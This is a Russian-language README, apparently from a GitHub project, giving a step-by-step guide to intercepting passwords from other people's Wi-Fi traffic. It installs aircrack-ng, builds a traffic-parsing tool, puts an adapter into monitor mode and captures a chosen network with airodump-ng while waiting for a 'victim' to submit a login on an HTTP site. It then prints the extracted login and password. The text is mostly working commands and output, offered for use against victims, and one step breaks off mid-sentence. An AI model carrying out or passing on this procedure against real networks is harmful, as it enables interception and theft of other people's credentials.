 ## Перехват паролей из Wi-Fi трафика

### Требования
1. ОС основанная на Linux.
2. Wi-Fi модуль с поддержкой режима мониторинга.
3. Пакетный менеджер `apt` для установки зависимостей.
4. Все команды из инструкции выполняются от имени администратора (`root`).

### Подготовка
#### Установка необходимых програм
Если Вы используете ОС Kali Linux, то можно сразу перейти к шагу `4`. 
1. Установите пакет `wireless-tools`: 
    ```bash
    apt install wireless-tools
    ```
2. Установите пакет `aircrack-ng`:
    ```bash
    apt install aircrack-ng
    ```
3. Установите компилятор `g++` не ниже 8-ой версии:
    ```bash
    apt install g++-8
    ```
4. Скачайте скрипт для анализа дампов сети и перейдите в папку со скриптом: 
    ```bash
    git clone https://github.com/hackallcode/cap_analyzer.git
    cd cap_analyzer
    ```
5. Скомпилируем скрипт:
    ```bash
    g++-8 -std=c++17 cap_analyzer.cpp -o cap_analyzer.o
    ```
6. Создадим папку, где будем складывать дампы сети:
    ```bash
    mkdir dumps
    ```
#### Подготовка модуля
1. Для начала надо определить название интерфейса нашего Wi-Fi модуля:
    ```bash
    airmon-ng
    ```
    В результате выполнения команды будет что-то похожее на это:
    ```
    PHY	Interface	Driver		Chipset
    
    Warn ON: USB
    phy1	wlan0		mt76x0u		Ralink Technology, Corp. MT7610U
    ```
    В нашем случае интересуемое название: `wlan0`.
2. Далее необходимо включить режим наблюдения на выбранном интерфейсе:
    ```bash
    airmon-ng start wlan0
    ```
3. Проверяем, что все хорошо:
    ```bash
    iwconfig
    ```
    Результат выполнения будет похож на это:
    ```
    eth0      no wireless extensions.
    
    lo        no wireless extensions.
    
    wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=14 dBm   
        Retry short limit:7   RTS thr:off   Fragment thr:off
        Power Management:on
    ```
    Строка `Mode:Monitor` гласит о том, что адаптер в режиме мониторинга.
    Также теперь наш интерфейс называется `wlan0mon`. Запоминаем это для дальнейшего использования.
### Перехват
1. Переходим в папку для 
2. Для начала посмотрим, какие сети есть неподалеку:
    ```bash
    airodump-ng wlan0mon
    ```
    Сверху будут отображаться Wi-Fi сети, снизу Wi-Fi клиенты. 
    Выбираем сеть и канал этой сети, которые будет атаковать.
3. Начинаем собирать трафик с выбранной сети.
    ```bash
    airodump-ng wlan0mon --essid <SSID> -c <Channel> -w <filename>
    ```
    *... Ждем, пока жертва посетит HTTP сайт и введет логин и пароль ...*
    Нажимаем `ctrl + c`, когда хотим закончить сбор данных.
4. Далее запускаем скрипт для анализа трафика:
    ```bash
    ./cap_analyzer.o <filename.cap> -u <attacked_url> -- <field_name_1> <field_name_2>
    ```
    В результате получим что-то подобное:
    ```
    URI = http.hackallcode.ru
    
    Method = POST
    login = hackallcode
    password = Qwerty123!
    ```
    Вот что и требовалось получить!
